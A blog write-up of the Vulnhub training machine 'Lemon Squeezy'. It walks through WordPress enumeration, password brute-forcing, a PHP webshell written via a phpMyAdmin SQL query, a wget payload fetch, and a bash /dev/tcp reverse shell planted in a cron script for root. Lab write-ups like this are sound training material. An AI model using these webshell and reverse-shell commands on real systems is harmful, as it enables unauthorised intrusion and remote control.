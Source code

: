 ```yaml
---
layout: single
title: "Vulnhub Write-up: Lemon Squeezy"
excerpt: "Writeup for an OSCP-like machine created by my hackin' homie"
date: 2020-05-13
header:
  teaser: #/assets/images/Stripe-Vulnhub/vulnhub.png
  teaser_home_page: true
classes: wide
categories:
  - vulnhub
  - infosec
tags:
  - enumeration
  - wordpress
  - sql
---
```




My study partner and former colleague recently created an OSCP-like machine for Vulnhub, as my machine [Stripes](https://www.vulnhub.com/entry/stripes-1,468/) already has a writeup available, I decided to be the first one to draw blood on his and create this writeup.
I would rate this box as easy with a couple of curveballs but overall pretty straightforward and absolutely perfect for beginners to sink their teeth into.

You can download the machine from vulhub <a href="https://www.vulnhub.com/entry/lemonsqueezy-1,473/">Here</a>

## Summary 

- Scan wordpress to obtain both usernames and passwords
- Obtain PHPmyadmin creds and login
- Create backdoor by abusing SQL CLI access
- Keep squeezing the machine until the hidden escalation vector is identified

## Enumeration 
### Nmap :

![nmap](/assets/images/lemonsqueezy/1.jpg)


Full port scan shows just 80 (HTTP) open.
Navigating to 80 shows just the default apache page.
Gobuster shows that wordpress is installed, for good measure I started a dirbuster scan in the background in case wordpress was a red herring, 
however was confident that enumerating with wpscan would yield some information.

        wpscan --url http://lemonsqueezy/wordpress --enumerate u

As below we get 2 users:

![users](/assets/images/lemonsqueezy/2.JPG)

Next I ran good old rockyou against them:

        wpscan --url http://lemonsqueezy/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames lemon,orange

The first password is found very fast, I left the attack going on lemon but am highly doubtful it will find anything, I will move onto logging in:


![password](/assets/images/lemonsqueezy/3.JPG)

After seeing we will not be able to upload a shell, I had a look around the panel and found a draft post with a password in it.

I tried it in phpmyadmin first, as the draft was created by the current user (orange), and was able to log into phpmyadmin as orange with this PW first try

I had a brief look for exploits for the phpmyadmin version however decided to see what I could and couldn't do in here first.
Turns out I can set a new password value for lemon, which should allow me to log into the admin panel in WP and get a shell.
I changed the password to "password" and logged in.


![change_pass](/assets/images/lemonsqueezy/4.JPG)

Looks like the themes cannot be edited and media cannot be uploaded, seems to be intentionally hardened against this vector - so we will put a malicious plugin together and get shell this way.
I used a handy tool called wordpwn to spin a malicious plugin together - however I failed to realise that ALL upload functionailty is broken - so this did not work.
I went back to Phpmyadmin where I am unable to create new databases.
What I can do however is run direct sql queries.
I used this to create a webshell and confirm code execution as below:

        select "<?php echo shell_exec($_GET['cmd']);?>" into outfile '/var/www/html/wordpress/wp-content/uploads/shell.php'

confirmed code execution with whoami:

        http://lemonsqueezy/wordpress/wp-content/uploads/shell.php?cmd=whoami

![change_pass](/assets/images/lemonsqueezy/5.JPG)

I tried a few reverse shell oneliners however none worked so I gave up and simply hosted a php reverse shell, 
amended the IP and then grabbed with wget:

         http://lemonsqueezy/wordpress/wp-content/uploads/shell.php?cmd=wget%20http://192.168.20.132/1.php

I then started a listener, navigated to the shell I just grabbed and now have a proper low priv foothold:

        http://lemonsqueezy/wordpress/wp-content/uploads/1.php


![low_priv](/assets/images/lemonsqueezy/6.JPG)

I upgraded my shell because I am both lazy and fancy

   In remote terminal:
   
        python3 -c 'import pty; pty.spawn("/bin/bash")'
        Ctrl-Z
	
   In Kali terminal:
   
        stty -a
        stty raw -echo
        fg
        stty rows 20
	
Ta-da, now I have handy features such as autocomplete, access to bash history etc.
One of the first things I do with a www-data shell is go straight to /var/www/ and snoop around for additional web apps and credentials,
I was surprised to see user.txt in there, I did not think I would be able to read yet, however I was able to grab the flag - I suspect this means that we will 
either be pivoting straight to root or be able to read root flag as lemon/orange

![low_priv](/assets/images/lemonsqueezy/7.JPG)

*fun fact, flag decodes to "Music can change your life, "


## Privilege Escalation 

I did not find out anything in here I did not already know, I also manually checked for local listening ports and sudo commands aswell as snooped around orange's directory, so I decided to infiltrate some enumeration scripts to finish the rest of the groundwork for me.
After trying linenum and linpeas only linux smart enum gave me some useful info, I suspect this is because the binary was hidden by being called logrotate
https://github.com/diego-treitos/linux-smart-enumeration

![logrotate](/assets/images/lemonsqueezy/8.JPG)

I overwrote the code inside logrotate with a generic bash reverse shell one liner and got a shell back as root.

        #!/bin/bash
        bash -i >& /dev/tcp/192.168.20.132/8080 0>&1

![root_proof](/assets/images/lemonsqueezy/9.JPG)

The flag by itself does not decode, however if you add it to the second flag you get a profound bit of wisdom.
I will leave this to the solver to find this :)

All in all I think this was a fantastic OSCP prep machine, I personally preffered the user foothold over the privilege escalation but it certainly made me "squeeze" a bit harder huehuehue



